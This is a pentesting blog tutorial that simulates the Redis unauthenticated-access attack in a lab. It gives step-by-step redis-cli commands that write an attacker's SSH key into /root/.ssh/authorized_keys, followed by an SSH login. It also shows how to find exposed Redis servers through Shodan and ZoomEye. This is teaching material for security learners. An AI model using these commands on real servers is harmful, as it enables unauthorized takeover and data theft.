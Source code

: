 ```yaml
---
layout: post
title: "Simulating Redis Unauthorized Access Vulnerability"
excerpt: "If a Redis is publicly accessible and is not protected by password, a remote attacker can exploit this to gain unauthorized access to the server. Let's learn how to set up a vulnerable redis server and attack it. We will also explore how to search and verify vulnerable redis out there with powerful search engine Shodan and automated python exploit"
categories: [pentesting-simulation]
comments: true
image:
  feature: redis-unauth-acc-vul/redis-unauthorized-access.png
  show: true
---
```


Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis' are bind to public interface and even has no password authentication protection. 


Under certain conditions, if Redis runs with the root account, attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges and delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.


The simplified flow of this exploit is:

	- Login to a unprotected Redis
	- Change it's backup location to .ssh directory
	- Write the SSH Keys to new backup location
	- Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

### Simulation

Now let's get our hands wet and set up a target machine. We'll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.


Environment setup for this example:

	- Target machine: Redis-3.2.11 on Ubuntu
	- Attack machine: Kali Linux

&nbsp;
#### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by
```bash
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build
```bash
tar xzf redis-3.2.11.tar.gz
cd redis-3.2.11
make
```

After make, we can use our favorite editor to open ```redis.conf``` in ```redis-3.2.11``` folder. In order to be remotely accessed, we will comment out line ```bind 127.0.0.1``` and disable ```protected-mode``` as shown below.

![redis.conf]({{ "/assets/upload/images/redis-unauth-acc-vul/redis.conf.png" | absolute_url }}){:class="post-image center"}

Now we should fire up Redis with the configuration file we just edited. Note that ```redis-server``` is in ```redis-3.2.11/src```.

```bash
src/redis-server redis.conf
```

Now we have finished setting up the targer server. Additionally, we should also check if we have ```.ssh``` folder. If not, we should create it for the attack later. 


#### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target maching later. Run the following command to generate keys and leave passphrase empty.
```bash
ssh-keygen -t rsa
```

Next, enter the ```.ssh``` folder. If you are root user, enter ```/.ssh```, otherwise ```~/.ssh```, then copy the private key in to ```temp.txt```.

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don't know :)

![ssh-keygen]({{ "/assets/upload/images/redis-unauth-acc-vul/keygen.png" | absolute_url }}){:class="post-image center"}

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use ```redis-cli```, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal. 

Run the following commands in ```redis-3.2.11/src``` folder. (Or depending where we are, we can always specify the path to the files we use)

```bash
#our SSH public key|              Remote Redis IP   Command key
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let us take a look at the command. We use ```-h``` flag to specify the remote Redis server IP so that ```redis-cli``` knows where to connect and send commands. The part after ```-x``` is saying that we are setting the key named ```s-key``` with the value in ```temp.txt```. 

![set-key]({{ "/assets/upload/images/redis-unauth-acc-vul/set_key.png" | absolute_url }}){:class="post-image center"}

Yea, we have a key with our SSH key sneaked in! Let's connect to the Redis and play around its configuration. Use ```redis-cli``` to connect to the Redis server again.

![set-backup-dir]({{ "/assets/upload/images/redis-unauth-acc-vul/set_backup_dir.png" | absolute_url }}){:class="post-image center"}

Looking at the above screenshot, we first verify the value of the key ```s-key``` by using the command ```GET s-key```, which is what we want -- the public key with two blank lines before and after. Then I tried the command "dir" just to see what it says (kidding). What we actually want to do here is to get the value of "s-key" (SSH public key) stored in the ```.ssh``` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```bash
CONFIG GET dir #  get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed.

CONFIG SET dir /home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh 

CONFIG SET dbfilename authorized_keys

# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save

```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured 
> Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)

#### Woohoo, Harvest Time

On Attack Machine, try to SSH in the Target Machine using the following command.

```bash
# private key username@server IP
ssh -i id_rsa username@203.137.255.255
```

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}


YAS! As we can see, we have a successful auto-login with SSH keys! Voila voila, we have now completed the attack simulation. :smile: (Smiley face actually means that I'm finally almost done writing this up :sob:)

At the end of this section, I would like to show what is Redis's backup file look like.

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}

Notice the unreadable characters? Add "\n\n" before and after the key content was just to be safe and separate it from other "stuff" so that it can be parsed correctly. :ok_hand:

### Use Search Engine to find Vulnerable Redis Servers

Alrighty alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis' default port.

![shodan]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan.png" | absolute_url }}){:class="post-image center"}

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! :worried: :worried: :worried: 

This vulnerability was found years ago and now still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server... 

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015. 

![shodan-twitter]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan_twitter.png" | absolute_url }}){:class="post-image center"}

According to ZoomEye, the distribution of the instances is.

![zoomeye-dist]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist.png" | absolute_url }}){:class="post-image center"}

The top ranking countries of these instances are: China, USA, Germany...

![zoomeye-dist-rank]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist_rank.png" | absolute_url }}){:class="post-image center"}

Okay, we need to get back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![redis-python-verify]({{ "/assets/upload/images/redis-unauth-acc-vul/redis-python.png" | absolute_url }}){:class="post-image center"}